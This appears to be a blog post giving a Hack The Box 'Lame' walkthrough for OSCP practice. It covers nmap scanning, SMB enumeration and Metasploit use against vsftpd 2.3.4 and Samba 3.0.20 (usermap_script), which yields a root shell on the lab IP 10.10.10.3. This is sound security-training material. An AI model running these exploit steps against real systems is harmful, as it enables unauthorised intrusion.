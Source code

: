 ```yaml
---
type: post
title: "Hack the Box Lame Writeup"
date: 2020-05-11 20:27:00 +1000
---
```

Welcome to the first in this series of writeups of "OSCP-like" boxes as inspired by TJNull's great article about [OSCP preparation.](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html)

The OSCP certification is a hands-on exam. With the requirement to hack multiple boxes in the exam lab and produce a detailed pentesting report it relies heavily on real world skills. To begin we will be hacking Lame from <https://hackthebox.eu> and because this is a retired box, we are allowed to post public solutions.

## Overview

![Lame information image](/assets/img/htb-lame-info.png){: .align-right}

Lame is an easy Linux based box from HTB and was one of the earliest that went live. It is a very easy box but also a great example of how powerful some RCE vulnerabilties can be, especially in core networking services like SMB and Samba!

Skills tested:

- Port scanning
- Service enumeration
- Vulnerability CVE identification
- Vulnerability exploitation

## Scanning and Enumeration

Let start with my [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) inspired nmap scan options of `nmap -sC -sV -oA nmap/lame 10.10.10.3` which will give us a good idea of what's on the box.

Nmap options explained:

- `-sC` runs the [default nmap scripts](https://nmap.org/nsedoc/categories/default.html) and provides extra information on many commonly seen services
- `-sV` performs service version detection
- `-oA` exports the output to text, grepable and xml formats
- I do *not* use `-O` or `-A` because I find OS detection unreliable and it is usually more accurate to use the service versions

Breaking down the nmap results gives us the following services that we can investigate in more depth

### Port 21 VSFTPD 2.3.4

```text
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
```

The nmap option `-sC` already ran the default ftp-anon.nse script for us and we can see that that the FTP allows for anonymous access. Nmap has also identified the version as vsfptd 2.3.4

This FTP server does not contain any interesting files but vsftpd 2.3.4 is vulnerable to a backdoor command injection. Running `searchsploit vsftpd 2.3.4` will find a Metasploit module for this!

![Searchsploit for vsftpd 2.3.4](/assets/img/searchsploit-vsftpd.png){: .align-center}

We could also google the service and version to arrive at the Rapid7 metasplolit module documentation.

<https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor>

![Google results for vsftpd 2.3.4](/assets/img/vsftpd-google.png){: .align-center}

### Port 22 OpenSSH 4.7p1

```text
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
```

There are SSH vulnerabilities, but remote code execution is rare and SSH is usually reasonably hardened. Password spraying and stuffing are common techniques used by threat actors in real life but it's not as successful against CTF machines, so we will skip attacking SSH directly.

However, SSH banners can often disclose information about the Linux version. After a bit of googling we can discover that it's Ubuntu "Hardy Heron" 8.04 from 2008

### Port 139 and 445 Samba 3.0.20

```text
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Host script results:
|_clock-skew: mean: -3d00h55m45s, deviation: 2h49m45s, median: -3d02h55m47s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-08T08:30:29-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

SMB is a very popular target, both Windows and Linux have remote code execution vulnerabilities and misconfigurations are a common method for gaining a foodhold or exposing sensitive information.

Enumeration of SMB using `enum4linux -a 10.10.10.3` and `smbclient -L \\10.10.10.3` usually provides interesting results.

**Unfortunately, at the time of writing, the virtual machine clock is out of sync and this means that SMB can fail to connect with the error *protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED* resulting in difficulty enumerating further**

We can continue our enumeration by searching <https://exploit-db.com> for Samba 3.0.20 and find another Metasploit module. This time for a 'Username' map script' Command Execution vulnerability which looks promising.

![Search results on exploitdb.com](/assets/img/samba-exploit.png){: .align-center}

## Exploitation

Our scanning and enumeration identified two likely paths of attack, both with metasploit modules available. First start the Metasploit database using `systemctl start postgresql.service` then run the metasploit console using `msfconsole` and lets get hacking!

![Metasploit console image](/assets/img/metasploit-console.png){: .align-center}

### VSFTPD Exploitation

Searching for the VSFTPD backdoor with `search vsftpd` displays only one exploit, so lets use that.

```text
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

1. Load the module with `use exploit/unix/ftp/vsftpd_234_backdoor`
2. Check the options by typing `show options`
3. Set the RHOSTS variable to our target with the `set RHOSTS 10.10.10.3` command

![vsftpd exploit setup](/assets/img/vsftpd-msfconsole.png){: .align-center}

Finally, we simply type `exploit` and...

![vsftpd exploit failure](/assets/img/vsftpd-exploit-fail.png){: .align-center}

Unfortunately, we get the "Exploit completed, but no session was created" error message which usually means that the target is not actually vulnerable. Perhaps some naughty CTF creator fixed it without updating the version and left us with a rabbit hole to get stuck in? :smirk:

That failure does not stop us though, we have more exploits to try!

### Samba Exploitation

Following the same steps as before we can use MEtasploit again to try the Samba 3.0.20 username map command execution vulenrably.

1. Type `search Samba` within Metasploit
2. Select the module by typing `use exploit/multi/samba/usermap_script`
3. Set the RHOSTS with `set RHOSTS 10.10.10.3`
4. And `exploit`

This time we should see something much better, a sucessful command shell where can run Linux commands and we seem to be root!

![sucessful command shell](/assets/img/samba-exploit-msfconsole.png){: .align-center}

You now have completely rooted this system, so pillage away and grab those user.txt and root.txt flags. Congrats!
